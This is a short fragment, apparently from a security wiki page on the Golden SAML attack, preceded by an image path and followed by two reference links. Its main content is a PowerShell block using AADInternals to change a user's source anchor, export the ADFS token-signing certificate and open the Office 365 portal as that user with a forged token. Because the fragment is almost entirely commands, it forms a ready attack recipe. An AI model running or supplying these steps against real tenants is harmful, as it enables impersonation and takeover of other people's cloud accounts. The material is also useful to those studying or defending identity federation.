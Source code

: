 ```powershell
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

{% hint style="success" %}